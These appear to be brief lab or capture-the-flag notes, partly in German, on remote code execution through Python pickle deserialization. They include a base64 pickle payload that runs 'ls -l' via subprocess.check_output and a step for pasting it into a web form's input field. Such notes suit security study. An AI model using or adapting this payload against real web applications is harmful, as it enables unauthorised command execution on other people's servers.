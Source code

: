 # python pickle

remote code execution möglich

python import os vs. python import subprocess

subprocess gibt den Output des commands zurück, os nicht

usage: 
$python3 ls.python

b'gASVMQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMAmxzlIwCLWyUZYWUUpQu'

then copy everything between b' and ' and paste it into the html input value
